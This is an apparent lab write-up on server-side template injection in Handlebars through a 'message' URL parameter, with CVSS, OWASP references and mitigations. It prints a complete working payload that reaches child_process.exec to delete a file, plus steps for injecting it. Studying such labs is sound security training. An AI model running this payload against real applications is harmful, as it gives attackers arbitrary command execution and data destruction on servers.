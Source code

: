 
# 4. Server-Side Template Injection via message Parameter (Handlebars)

## 2. CVSS Score

**CVSS v3.1 Base Score: 8.6 (High)**
**CWE-94: Improper Control of Generation of Code ('Code Injection')**

---

## 3. OWASP Top 10 Reference

* **A03:2021 – Injection**

---

## 4. Description of Vulnerability

The application uses Handlebars as its server-side template engine. The `message` parameter is reflected in a Handlebars template without proper sanitization, allowing injection of arbitrary Handlebars expressions. This vulnerability can be exploited to execute arbitrary OS commands by abusing Handlebars features and JavaScript internals, specifically by accessing the `child_process` module to execute commands like file deletion.

---

## 5. Detailed Explanation of What We Performed

* Tested the `message` parameter with various fuzz strings containing template syntax from different engines.
* Identified Handlebars by observing the error messages returned from invalid template syntax.
* Researched “Handlebars server-side template injection” and found a known exploit by @Zombiehelp54.
* Modified the exploit to execute the OS command to delete Carlos’s morale file:

```handlebars
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

* URL-encoded the payload and inserted it as the value of the `message` parameter in the URL.
* Loaded the URL to execute the payload and solve the lab.

---

## 6. Step-by-Step Procedure

### Step 1: Identify Template Engine and Injection Point

1. Navigate to the product details page and observe the use of the `message` parameter in the response.
2. Inject fuzz strings containing various template syntax characters into the `message` parameter.
3. Confirm Handlebars is used by analyzing the error messages on invalid templates.

---

### Step 2: Research and Construct Payload

4. Search online for “Handlebars server-side template injection”.
5. Locate the exploit by @Zombiehelp54 that allows arbitrary code execution via Handlebars internals.
6. Adapt the exploit to delete Carlos’s morale file using the payload shown above.

---

### Step 3: Inject Payload and Execute

7. URL-encode the entire payload.
8. Append it to the URL as the `message` parameter value:

```
https://YOUR-LAB-ID.web-security-academy.net/?message=[URL-ENCODED_PAYLOAD]
```

9. Load the URL in the browser.

---

### Step 4: Verify and Solve Lab

10. The payload executes, deleting `/home/carlos/morale.txt`.
11. Lab is marked as solved.

---

## 7. Impact of the Vulnerability

* Enables arbitrary command execution on the server via server-side template injection.
* Can result in file deletion, data leakage, and full server compromise.
* Critical threat to confidentiality, integrity, and availability.

---

## 8. Recommendations and Mitigations

* Avoid rendering user input directly in templates.
* Sanitize and escape all user inputs used in templates.
* Disable or restrict access to sensitive APIs and JavaScript internals in the template engine.
* Use strict Content Security Policy (CSP) and runtime sandboxing where possible.
* Regularly patch template engines and dependencies to fix known vulnerabilities.

---

## 9. References

* [Handlebars SSTI Exploit by @Zombiehelp54](https://github.com/zombie-help54/Handlebars-SSTI)
* [Handlebars Official Documentation](https://handlebarsjs.com/)
* [OWASP Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
* [PortSwigger Labs – SSTI](https://portswigger.net/web-security/template-injection)


